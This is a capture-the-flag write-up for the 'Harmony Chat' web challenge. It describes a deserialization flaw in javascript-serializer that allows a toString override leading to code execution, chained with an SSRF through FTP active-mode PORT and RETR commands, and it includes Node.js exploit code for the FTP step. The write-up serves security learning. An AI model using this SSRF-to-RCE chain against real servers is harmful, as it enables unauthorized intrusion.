# Harmony Chat
**Category**: Web

**Difficulty**: Hard

**The task**:



This one took me so long(+48 hours after the CTF ended) but it was def worth it.

To the CTF organizers: thanks for keeping the challenges live! 

# Analysis

## Overview

We were given a chat application:



In this chat, you can:
* Register with a ``/register`` command.
* Login with ``/login``
* Create your own channel
* Invite other users
  
All of those actions were implemented using a websocket server.

The app also provides an abillity to see the channel's logs via HTTP(if you click on the _"Logs[HTTP]"_ button):



Another option is provided, which allows you to view the channel logs using FTP via port 3321. The result from the FTP server has the same format as the one in the screenshot above( ``username`` + ``:`` + ``message`` followed by a newline)

## The ``csp-report`` endpoint.

Every time you click on  _Logs[HTTP]_ , the browser will issue the following request in the background:



The POST parameters are validated by a method called ``validateAndDecodeJSON``. This method is using an ``ajv`` npm module to validate our input and prevent (possibly) malformed input using ``REPORT_SCHEMA``. 

```js
try {
    const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
    console.error(generateTextReport(report["csp-report"]))
} catch (error) {
    console.warn(error)
    return
}
```

However, it was found that the validation schema does not validate all of the parameters properly, which allows us to control part of the JSON structure.

# Solution

Inside ``validateAndDecodeJSON`` there is a de-serialization vulnerabillity(in the last line):

```js
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```

If we combine this issue + the loose ``ajv`` validation schema, we can override important methods of objects.



>**Note**: More background about the ``javascript-serializer`` module and the way it's serializing objects can be found [here](https://www.npmjs.com/package/javascript-serializer#how-does-it-work)

Instead of adding our own property(like in the screenshot above), we will use a parameter called ``line-number``. 

To achieve RCE, we'll override the ``toString`` method of the ``line-number`` property. 

The ``toString`` method is a good candidate because later in the code, the app is doing a lot of string concatenations(which, will trigger ``toString``):



Result:



Nice! 

**Now, the next part of the challenge begins:**

The vulnerable de-serialization is executed only if the request has arrived from ``localhost``.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
// ...
if (!isLocal(req)) {
    return
}
```

To overcome this, we'll need an SSRF vulnerabillity. 

SSRF can be triggered using the FTP service of the _Harmony Server_(running on port 3321) which supports [_Active Mode_](https://slacksite.com/other/ftp.html))



# Time to pwn

This is splitted into two steps:
* Step 1 - Creating a channel with users & history that looks like an HTTP request
  * The history will be saved as a file in the FTP server
* Step 2 - Connect to the FTP server and make it act on active mode while we're requesting our malicious channel's history.


## Step 1 

Create multiple users and construct a chat history that look-alike an HTTP request:







## Step 2

Triggering the SSRF using the ``PORT`` and ``RETR`` commands (full exploit can be found at ``solve.js``)

```js
async function ftp_pwn(userId, channelId) {
    return new Promise( (resolve, reject) => {
        let client = new net.Socket();
        client.connect(HARMONY_FTP_PORT, HARMONY_SERVER, () => {
            console.log(`Connected to ${HARMONY_FTP_PORT}`);
        });

        client.on('data', function(data) {
            console.log('Received: ' + data);
            if(data.includes('ready')) {
                client.write(`user ${userId}`);
            }
            else if(data.includes('need password')) {
                client.write('pass '); // no password
            }
            else if(data.includes('logged in, proceed.')) {
                client.write('PORT 127,0,0,1,13,52')
            }
            else if(data.includes('200 OK')) {
                client.write(`RETR ${channelId}`)
                resolve('ftp -> pwned');
            }
        });

        client.on('close', function() {
            console.log('Connection closed');
        });
    });
}
```

then, pop a shell & cat the flag :D 





